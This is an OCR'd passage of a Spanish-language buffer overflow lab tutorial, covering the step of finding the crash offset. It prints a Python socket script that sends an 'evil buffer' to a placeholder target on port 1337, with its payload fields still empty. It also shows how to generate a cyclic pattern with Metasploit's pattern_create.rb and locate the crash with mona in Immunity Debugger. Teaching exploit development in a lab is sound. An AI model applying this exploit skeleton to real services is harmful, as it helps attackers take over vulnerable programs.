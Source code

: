 OBTENER EL OFFSET

Una vez obtenido el punto exacto donde crashea el programa, vamos a necesitar el

offset; y para ello vamos a enviar un número de esa data algo mayor, por lo que por

ejemplo vamos a sumar +400 bytes.

Creamos otro script en el Kali (nano exploit.py):

- ---------------------------------------------------------------------------------------------------------------------------------------------------------------

`import socket`

`ip = "MACHINE_IP"`

`port = 1337`

`prefix = "OVERFLOW1 "`

`offset = 0`

`overflow = "A" * offset`

`retn = ""`

`padding = ""`

`payload = ""`

`postfix = ""`

`buffer = prefix + overflow + retn + padding + payload + postfix`

`s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)`

`try:`

`s.connect((ip, port))`

`print("Sending evil buffer...")`

`s.send(bytes(buffer + "\r\n", "latin-1"))`

`print("Done!")`

`except:`

`print("Could not connect.")`

- ---------------------------------------------------------------------------------------------------------------------------------------------------------------

Ponemos la ip de la máquina windows y el puerto por el que corre el binario

Ejecutamos un comando para metasploit para que nos genere una cantidad de bytes (hay que añadir el número de bytes en el que crasheaba + 400, en este caso son 600 + 400 = 1000): /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000

Copiamos los bytes que nos ha generado y los pegamos en el parámetro payload (dentro de las comillas ¨¨) del script exploit.py

Guardamos el script, abrimos immunity debugger y establecemos con mona el punto exacto donde crashea el .exe: !mona findmsp -distance 600
